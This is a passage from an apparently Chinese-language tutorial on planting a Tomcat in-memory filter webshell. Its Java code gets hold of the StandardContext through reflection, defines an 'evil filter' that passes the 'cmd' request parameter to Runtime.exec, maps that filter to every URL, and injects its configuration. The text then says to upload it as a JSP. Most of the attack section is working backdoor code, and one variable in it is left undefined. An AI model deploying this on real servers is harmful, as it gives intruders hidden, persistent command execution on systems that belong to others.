        for(ApplicationFilterConfig filter:filters) {
            if(filter==filterConfig) {
                return;
            }
        }

        if (n == filters.length) {
            ApplicationFilterConfig[] newFilters =
                new ApplicationFilterConfig[n + INCREMENT];
            System.arraycopy(filters, 0, newFilters, 0, n);
            filters = newFilters;
        }
        filters[n++] = filterConfig;

    }
```

总体思路就是

1. 先拿到当前应用的 StandardContext 对象
2. 创建 evil filter,
2. 使用 FilterDef 对 filter 封装，添加比对所需要的属性，使用ApplicationFilterConfig 封装 filterDef
3. 创建 filtermap 对象，通过以上两种 addFilterMap 方法将 filtermap 对象写入 StandardContext 对象的 filterMaps 中



这样完成了 web 应用启动后的 filter 的添加，通过这个 evil filter 执行命令。

```java
//// 1. 获取 standardContext 对象

// 获取 ApplicationContextFacade 类
ServletContext servletContext = request.getSession().getServletContext();
 
// 获取 ApplicationContextFacade 类中的属性 context 即ApplicationContext 类
Field applicationContextField = servletContext.getClass().getDeclaredField("context");
applicationContextField.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
 
// 获取 ApplicationContext 类中的属性 context 即 StandardContext 类
Field standardContextField = applicationContext.getClass().getDeclaredField("context");
standardContextField.setAccessible(true);
StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);


//// 2. 创建 evil filter

public class Filter_mem implements Filter {
    
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd=request.getParameter("cmd");
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }catch (NullPointerException n){
            n.printStackTrace();
        }
    }
}

//// 3. 使用 FilterDef 对 filter 封装，添加比对所需要的属性，
Filter_mem filter = new Filter_mem();
String name = "Filter_mem";
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName(name);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);


//// 4. 创建 filtermap 对象，通过以上两种 addFilterMap 方法将 filtermap 对象写入 StandardContext 对象的 filterMaps 中
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*");
filterMap.setFilterName(name);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);

//// 5. 获取 standardContext 中的属性值 filterConfigs ，一个map 对象， 然后通过反射构造 ApplicationFilterConfig 对象并封装 filterDef，然后将 ApplicationFilterConfig 对象 put 进 map 。
Field filterConfigsField = StandardContext.class.getDeclaredField("filterConfigs");

filterConfigsField.setAccessible(true); 

HashMap<String, ApplicationFilterConfig> filterConfigs = 
        (HashMap<String, ApplicationFilterConfig>) filterConfigsField.get(standardContext);


Constructor<?> constructor = ApplicationFilterConfig.class.getDeclaredConstructor(
            org.apache.catalina.Context.class, 
            FilterDef.class);

constructor.setAccessible(true); 
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);      

filterConfigs.put(filterName, filterConfig);
```

上传 jsp ，然后访问该 jsp 将 evil filter 写入内存。

